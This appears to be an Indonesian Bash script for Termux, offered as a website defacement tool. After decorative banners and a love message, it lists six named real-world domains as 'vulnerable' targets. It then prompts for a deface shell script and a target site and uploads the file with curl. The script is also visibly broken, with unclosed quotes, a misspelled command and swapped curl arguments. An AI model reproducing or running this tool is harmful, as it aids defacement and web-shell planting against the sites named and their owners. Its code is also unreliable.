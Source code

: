 #usr/bin/bash

clear
bi='\033[34;1m' #biru
i='\033[32;1m' #ijo
pur='\033[35;1m' #purple 
cy='\033[36;1m' #cyan
me='\033[31;1m' #merah
pu='\033[37;1m' #putih
ku='\033[33;1m' #kuning

echo $me" ║██  ❤️❤️  ❤️❤️  ██   ██    
echo $me" ║██  ❤️  ❤️  ❤️  ██   ██
echo $me" ║██    ❤️  ❤️    ██   ██
echo $me" ║██      ❤️      ███████
echo $me" 
slep 0.5
echo $pu"  ████  ███    █   █   █   █ 
echo $pu"  ██  ██  ██  █ █   █ █   █ █
echo $pu"  ██      ██  █❤️█   █║   █❤️█
echo $pu"  ██      ██  █  █   █║   █  █
echo $pu"
echo ""
echo ""
echo ""
echo "Script Ini diperbarui Stah ^_^" | lolcat
sleep 1
echo $ku"Pastikan Punya script buat Deface ( shell ) stah ^_^"
echo $i"——————————————————————————————————————————————————————————"
echo $pur"              [•]DARI : IPAN ADITIA
echo $ku"             [•]KEPADA : MAYA LESTARI
echo $i"             [•] PESAN  : AKU SAYANG KAMU
echo $me"      [•]ISI KANDUNGAN : AWOKAWOKAOWK ❤️
echo $i"——————————————————————————————————————————————————————————"
sleep 2
echo ""
echo ""
echo ""
echo $i"              CONTOH WEB VULN STAH ^_^"
echo $pur"         [1]http://scnc.co.za "
echo $pur"         [2]http://handj.co.za"
echo $pur"         [3]http://lwrm.co.za"
echo $pur"         [4]http://mc3qs.com"
echo $pur"         [5]http://mpark.co.za"
echo $pur"         [6]http://8x8.co.za"
echo ""
echo ""
echo " Udah asw jangan banyak - banyak ^_^" | lolcat
echo $pur"Aing Noob stah ^_^"
read -p "Masukkan Script defacenya ( shell )  :" script;
read -p "Masukkan web yg mau di deface        :" web;
echo "SEDANG MENDEFACE STAH ^_^" | lolcat
echo $i"L"$ku"O"$me"A"$pur"D"$cy"I"$ku"N"$i"G"
termux-setup-storage
curl -T /sdcard/$web $script
echo "Berhasil Di Deface ea :v" | lolcat
echo $i"Buka Hasilnya Disini Stah : $web/ $script"

